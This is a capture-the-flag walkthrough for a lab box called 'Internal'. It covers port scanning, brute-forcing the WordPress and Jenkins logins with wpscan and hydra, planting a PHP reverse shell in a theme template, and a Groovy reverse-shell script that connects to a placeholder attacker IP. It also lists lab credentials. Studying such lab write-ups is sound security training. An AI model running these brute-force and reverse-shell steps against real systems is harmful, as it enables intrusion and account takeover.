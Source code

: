 # Internal

### **Tasks**:

1. **Pre-engagement Briefing**:
   1. Get basic understanding that it's fully black box pentesting and you need to prove access by getting user.txt and root.txt.
2. **Deploy and Engage the Client Environment**:
   1. Doing nmap scan with `nmap -sC -sV -T5 ip` reveals port 22,80 open. Port 80 has Apache/2.4.29 running behind it.
   2. Use gobuster to find directories accessible to us : `gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://10.10.8.96/" --threads=100` - /blog, /phpmyadmin seems interesting, /blog seems to be wordpress site.
   3. By seeing [post](http://internal.thm/blog/index.php/2020/08/03/hello-world/) here, we can confirm there is a user called admin.
   4. Let's now use wpscan to bruteforce admin credentials with `wpscan --url http://internal.thm/blog/ -U admin -P /usr/share/wordlists/rockyou.txt -t 100` - \[admin:my2boys], Now login as wordpress administrator with these credentials.
   5. Twenty Seventeen is the active theme, Go to theme editor , In 404.php template replace  with Pentest-Money Reverse shell after changing required IP and PORT configurations. Also start netcat listener in another terminal using `nc -nlvp 1234` and open [404 page](http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php) to get shell . \[Location of theme can also obtained from wpscan output]
   6. Run `python -c 'import pty; pty.spawn("/bin/bash")'` to get interactive shell.
   7. We find that there's a user called aubreanna by navigating to home and doing `ls`, but we can't access that due to restrictions.
   8. `find / -type f -name "*.txt" | less` - we find there's a interesting file /opt/wp-save.txt, `cat /opt/wp-save.txt` -  we find aubreanna credentials \[aubreanna:bubb13guM!@#123], Login as aubreanna using `su aubreanna` and the password as bubb13guM!@#123.
   9. `cat /home/aubreanna/user.txt` and submit user flag. Also notice there's a jenkins.txt . `cat /home/aubreanna/jenkins.txt` reveals internal jenkins service running at 172.17.0.2:8080.
   10. Let's ssh exposing port 8080 locally to us to access jenkins `ssh -L 8080:172.17.0.2:8080 aubreanna@internal.thm` .
   11. Open http://127.0.0.1:8080 in browser, it seems to be a jenkins login page, Let's use hydra to bruteforce password keeping default user as admin after intercepting request through burp - `hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 8080 http-post-form '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password' - hydra -l admin -P /usr/share/wordlists/rockyou.txt //127.0.0.1 -s 8080 http-post-form 'j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password'` - \[admin:spongebob]
   12. Start netcat listener using `nc -nlvp 1337`
   13. Once logged in to jenkins instance using above credentials,  Go to manage jenkins> Script Console and enter below exploit and run the script in jenkins to get reverse shell.



       ```
       String host="attacker_ip";
       int port=1337;
       String cmd="bash";
       Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
       ```


   14. `ls -la` reveals .dockerfile which suggests we are in a docker container
   15. Using `find / -name *.txt | more` - we find there is file /opt/note.txt, `cat /opt/note.txt` reveals root credentials for parent os running this container. \[root:tr0ub13guM!@#123]
   16. Login using ssh : `ssh root@internal.thm` and tr0ub13guM!@#123 as password.
   17. `cat /root/root.txt` and submit flag.

